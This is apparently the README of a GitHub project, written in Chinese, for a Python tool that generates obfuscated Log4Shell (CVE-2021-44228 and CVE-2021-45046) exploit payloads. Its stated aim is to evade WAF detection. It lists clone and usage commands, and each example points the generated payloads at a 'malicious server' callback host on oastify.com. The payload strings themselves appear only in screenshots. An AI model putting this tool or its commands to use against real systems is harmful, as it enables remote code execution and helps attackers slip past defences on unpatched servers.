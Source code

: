# Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator可以生成初级混淆的或二级混淆的CVE-2021-44228或CVE-2021-45046 payloads，以规避WAF检测。

[Log4Shell-obfuscated-payloads-generator的设计思想](https://r3kind1e.github.io/2022/05/26/Log4Shell-obfuscated-payloads-generator/)

## 安装
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator在任何平台上都可以在Python 3.x版本中开箱即用。

## Usage
要获取基本选项列表，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

要获取使用示例，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: 获取基本选项列表
![help](img/help.png)

`-hh`: 获取使用示例
![usage-examples](img/usage-examples.png)

使用单个选项生成有效负载，`-s`选项指定恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```
![primary44228](img/primary44228.png)
![burp-collaborator-client1](img/burp-collaborator-client1.png)

```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```
![primary45046](img/primary45046.png)

```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```
![secondary44228](img/secondary44228.png)
![burp-collaborator-client2](img/burp-collaborator-client2.png)

```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```
![secondary45046](img/secondary45046.png)

使用多个选项来生成有效负载，`-s` 选项指定了恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```
![primary44228secondary44228](img/primary44228secondary44228.png)

如果不使用`-s`选项指定恶意服务器，`{{callback_host}}`占位符将保留在生成的有效负载中：
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```
![primary44228-without-server](img/primary44228-without-server.png)
```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```
![primary45046secondary45046](img/primary45046secondary45046.png)

**TODO: Log4Shell-obfuscated-payloads-generator的设计思路将在5月20日之后发布。**
